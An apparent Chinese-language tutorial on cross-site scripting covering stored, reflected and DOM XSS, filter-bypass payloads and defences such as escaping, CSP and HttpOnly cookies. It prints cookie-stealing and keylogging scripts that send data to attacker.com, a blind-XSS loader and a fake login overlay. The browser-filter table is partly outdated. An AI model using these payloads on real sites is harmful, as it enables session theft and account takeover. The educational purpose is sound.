

# XSS攻击与防护

2011年，Twitter爆发了一次大规模的XSS攻击事件。

攻击者通过一条恶意链接，在用户点击后，自动转发推文并私信关注者。短短几分钟内，数万用户中招。

更可怕的是，很多人的第一反应是：为什么我的账号会自动发东西？他们完全不知道自己被XSS了。

XSS（跨站脚本攻击）就是这样一种"低调"的漏洞——它不会像SQL注入那样直接拖库，但能让攻击者悄无声息地控制你的用户账号。

今天这篇文章，带你彻底理解XSS的原理、类型和防护。

## 从一个问题开始

想象你去一家餐厅，服务员递给你一张带二维码的菜单。你扫码后，发现手机自动给你的好友群发了一条广告链接。

你什么都没做，只是扫了个码。这就是XSS的本质：**你以为你在操作一个正常的网页，实际上恶意脚本在背后偷偷替你做了很多事情**。

## 【直观类比】

### XSS就像"狸猫换太子"

想象你是一家快递站的工作人员，负责分拣包裹。

**正常流程**：
- 客户A寄来一个包裹，上面写着"送给B"
- 你按地址送给B，B打开包裹

**XSS攻击**：
- 客户A寄来一个包裹，上面写着"送给B，同时帮我问候B的朋友C"
- 如果你不假思索地执行了"问候C"的操作，C就会收到骚扰信息
- 但C只会怪B，不会知道真正的问题是出在A的包裹上

XSS就是这样：攻击者在网页中注入恶意脚本，当其他用户访问这个网页时，脚本就在他们的浏览器中执行。

### 为什么叫"跨站"？

因为恶意脚本来自**另一个网站**（攻击者的网站），但却在**当前网站**的上下文中执行。

```
攻击者的网站 → 包含恶意脚本
       ↓
用户访问目标网站（目标网站被注入了恶意脚本）
       ↓
脚本在用户浏览器中执行，能访问目标网站的Cookie等信息
```

## 核心原理

### XSS的攻击流程



### 三种XSS类型

#### 1. 存储型XSS（Stored XSS）—— 最危险

恶意脚本被永久存储在目标服务器上：

```
用户发布评论 → 评论内容包含恶意脚本 → 服务器存储评论 → 其他用户查看评论 → 脚本执行
```

**典型场景**：论坛帖子、评论区、用户资料页

```html
<!-- 恶意评论内容 -->
<script>
  // 窃取用户Cookie
  document.location = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```

只要有用户浏览这条评论，脚本就会执行。

#### 2. 反射型XSS（Reflected XSS）—— 需要诱导点击

恶意脚本作为用户输入的一部分，被服务器反射回来：

```
用户点击恶意链接 → URL中包含恶意脚本 → 服务器返回页面时把脚本反射回来 → 脚本执行
```

```url
https://example.com/search?q=<script>alert('XSS')</script>
```

服务器如果没有转义`q`参数，直接返回：
```html
<p>搜索结果: <script>alert('XSS')</script></p>
```

#### 3. DOM型XSS（DOM-based XSS）—— 纯前端

完全不涉及服务器，完全在客户端解析：

```javascript
// 前端代码，直接读取URL参数并写入页面
var pos = document.URL.indexOf("message=") + 9;
var content = document.URL.substring(pos, document.URL.length);
document.getElementById("msg").innerHTML = content;
```

攻击URL：
```url
http://example.com/#message=<script>alert('XSS')</script>
```

### XSS能做什么？

1. **窃取Cookie/Session**
```javascript
// 获取当前网站的所有Cookie
var cookies = document.cookie;

// 发送到攻击者的服务器
new Image().src = 'http://attacker.com/steal?c=' + cookies;
```

2. **键盘记录**
```javascript
document.addEventListener('keypress', function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
});
```

3. **修改DOM/钓鱼攻击**
```javascript
// 创建一个假登录框覆盖原页面
var fakeLogin = '<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white"><h2>Session Expired</h2><form><input type="text"><input type="password"><button>Login</button></form></div>';
document.body.innerHTML = fakeLogin;
```

4. **内网探测**
```javascript
// 探测内网端口
for(var port=1; port<1024; port++) {
    fetch('http://192.168.1.x:' + port, {mode: 'no-cors'});
}
```

## 边界与特例

### 不同浏览器的XSS过滤器

现代浏览器都有内置的XSS过滤器：

| 浏览器 | 过滤器名称 | 绕过难度 |
| --- | --- | --- |
| Chrome | XSS Auditor | 较难绕过 |
| Safari | XSS Auditor | 较难绕过 |
| Firefox | 无内置 | 需手动防护 |
| IE/Edge | Filter | 可被绕过 |

:::warning ⚠️
**永远不要依赖浏览器XSS过滤器**。它只是一个辅助功能，不是完整解决方案。攻击者已经找到很多绕过方法。
:::

### CSP（内容安全策略）

现代浏览器的防护手段：

```http
Content-Security-Policy: script-src 'self' 'nonce-abc123'
```

这条策略告诉浏览器：只允许执行来自同源、且带有`nonce-abc123`属性的脚本。

```html
<!-- 合法的脚本 -->
<script nonce="abc123">alert('safe')</script>

<!-- 被阻止的脚本 -->
<script>alert('blocked')</script>
```

### Vue/React的XSS防护

现代前端框架默认会转义HTML：

```jsx
// React: dangerouslySetInnerHTML会警告
const userComment = "<script>alert('xss')</script>";
return <div>{userComment}</div>; // 被转义成文本
```

但如果你用了`dangerouslySetInnerHTML`，防护就失效了：

```jsx
// 危险！
return <div dangerouslySetInnerHTML={{__html: userComment}} />;
```

## 常见误区

### 误区1：XSS只偷Cookie

实际上XSS能做很多事情：
- 键盘记录
- 屏幕截图
- 访问摄像头/麦克风（需要权限）
- 修改页面内容
- 内网探测
- 发起CSRF攻击

### 误区2：我用了React/Vue就安全了

不完全是。框架只是降低了出错概率，但不能完全杜绝：

```jsx
// Vue的危险写法
<div v-html="userContent"></div>

// React的危险写法
<div dangerouslySetInnerHTML={{__html: userContent}} />
```

### 误区3：HTTPS能防止XSS

HTTPS和XSS是**两码事**。HTTPS只加密传输通道，XSS是执行恶意脚本，两者的攻击层面完全不同。

### 误区4：只要过滤`<script>`标签就够了

大错特错！攻击者有无数种绕过方法：

```html
<!-- 大小写绕过 -->
<SCRIPT>alert('xss')</SCRIPT>

<!-- 事件绑定 -->


<!-- SVG绕过 -->
<svg onload="alert('xss')">

<!-- URL编码 -->


<!-- Unicode编码 -->
javascript:alert('xss')

<!-- base64编码 -->
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">click</a>
```

## 防护方案

### 1. 输入过滤（白名单优先）

```python
import re

def sanitize_input(user_input):
    # 只允许安全的标签和属性
    allowed_tags = ['p', 'br', 'b', 'i', 'em', 'strong']
    allowed_attrs = []
    
    # 使用HTML清理库
    from bleach import clean
    return clean(user_input, tags=allowed_tags, attributes={}, strip=True)
```

### 2. 输出转义（核心防护）

```python
import html

def escape_html(text):
    return html.escape(text, quote=True)

# 测试
print(escape_html('<script>alert("xss")</script>'))
# 输出: &lt;script&gt;alert(&quot;xss&quot;)&lt;/script&gt;
```

### 3. HTTP响应头

```python
# Flask示例
@app.after_request
def add_security_headers(response):
    response.headers['X-XSS-Protection'] = '1; mode=block'
    response.headers['Content-Security-Policy'] = "script-src 'self'"
    response.headers['X-Content-Type-Options'] = 'nosniff'
    return response
```

### 4. Cookie安全

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

| 属性 | 作用 |
| --- | --- |
| HttpOnly | JavaScript无法读取Cookie |
| Secure | 只在HTTPS下传输 |
| SameSite | 防止CSRF攻击 |

### 5. CSP内容安全策略

```http
Content-Security-Policy:
    default-src 'self';
    script-src 'self' 'nonce-{random}';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data: https:;
    connect-src 'self' https://api.example.com;
    frame-ancestors 'none';
```

## 记忆技巧

### 口诀

> **XSS跨站脚本攻，输入输出都要防**
> **存储反射DOM型，三种类型记心上**
> **脚本标签要过滤，转义输出是良方**
> **Cookie加上HttpOnly，CSP头部加强防**

### XSS类型速查

| 类型 | 存储位置 | 触发方式 | 危险程度 |
| --- | --- | --- | --- |
| 存储型 | 服务器数据库 | 浏览页面 | ⭐⭐⭐⭐⭐ |
| 反射型 | URL参数 | 点击恶意链接 | ⭐⭐⭐ |
| DOM型 | 客户端 | 点击恶意链接 | ⭐⭐⭐ |

## 实战检验

### 检验1：识别XSS注入点

在网页输入框中尝试：
```html
<script>alert('XSS')</script>

<svg onload=alert('XSS')>
```

如果弹出alert框，说明存在XSS漏洞。

### 检验2：绕过过滤

测试常见绕过技巧：
- 大小写混合
- HTML实体编码
- Unicode编码
- 事件处理器
- SVG/iframe注入

### 检验3：XSS盲打

对于不回显的输入，测试Blind XSS：

```html
<script src="http://attacker.com/collect.js"></script>
```

在自己的服务器上部署一个收集脚本，等待目标网站的管理员访问。

【面试官心理】

面试官问XSS，其实是在测试你对"客户端安全"的理解。知道三种类型是60分，知道能做什么是80分，能说出完整防护方案是90分，如果还能提到CSP、浏览器XSS Filter绕过，那就是P7的水平了。

---

## 延伸阅读

- [CSRF攻击与防护](/cs/security/csrf) - 了解XSS如何被用于CSRF攻击
- [SQL注入原理与防护](/cs/security/sql-injection) - 另一种常见Web漏洞
- [JWT结构与使用场景](/cs/security/jwt) - 了解Cookie和Token的安全存储
